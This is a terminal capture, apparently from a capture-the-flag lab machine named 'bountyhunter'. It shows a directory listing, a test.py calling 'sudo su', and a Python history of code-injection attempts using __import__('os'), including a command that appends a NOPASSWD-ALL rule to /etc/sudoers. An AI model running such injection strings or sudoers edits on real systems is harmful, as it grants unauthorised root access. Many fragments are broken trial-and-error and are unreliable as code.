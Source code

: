 ```
development@bountyhunter:~$ ls -la
total 72
drwxr-xr-x 5 development development 4096 Nov  7 11:58 .
drwxr-xr-x 3 root        root        4096 Jun 15 16:07 ..
lrwxrwxrwx 1 root        root           9 Apr  5  2021 .bash_history -> /dev/null
-rw-r--r-- 1 development development  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 development development 3771 Feb 25  2020 .bashrc
drwx------ 2 development development 4096 Apr  5  2021 .cache
-rw-r--r-- 1 root        root         471 Jun 15 16:10 contract.txt
lrwxrwxrwx 1 root        root           9 Jul  5 05:46 .lesshst -> /dev/null
drwxrwxr-x 3 development development 4096 Apr  6  2021 .local
-rw-r--r-- 1 development development  807 Feb 25  2020 .profile
-rw------- 1 development development 1181 Nov  7 11:57 .python_history
-rw-rw-r-- 1 development development   66 Nov  7 10:22 .selected_editor
drwx------ 2 development development 4096 Apr  7  2021 .ssh
-rw-rw-r-- 1 development development   51 Nov  7 10:36 tamil2.md
-rwxrwxrwx 1 development development  648 Nov  7 11:57 tamil.md
-rw-rw-r-- 1 development development   21 Nov  7 10:46 test1.md
-rw-rw-r-- 1 development development   51 Nov  7 10:42 test.md
-rw-rw-r-- 1 development development   31 Nov  7 11:58 test.py
-r--r----- 1 root        development   33 Nov  7 07:20 user.txt
-rw------- 1 development development 2475 Nov  7 11:39 .viminfo

development@bountyhunter:~$ cat test.py 
import os
os.system("sudo su")

development@bountyhunter:~$ cat .python_history 
quit
exit
exit()
test.py
os.system("cd ~")
import os
os.system("cd ~")
print(import os\n os.system("cd ~"))
import os\n os.system("cd ~")
import os os.system("cd ~")
import osos.system("cd ~")
import os; os.system("cd ~")
quit
quit()
__import__(os)
__import__(subprocess)
__import__("subprocess")
__import__("os")
exit
quit()
__import__("os");os.system("hsh")
os=__import__("os");os.system("hsh")
os=__import__("os");os.system("echo hsh")
os=__import__("os");os.system("echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers")
os=__import__("os");os.system("echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers)
os=__import__("os");os.system("echo sudo su)
os=__import__("os");os.system("echo sudo su")
os=__import__("os");os.system("sudo su")
exit
exit()
execfile("test.py")
exec(open("test.py").read)
execfile("/home/development/test.py")
import execfile
exec()
```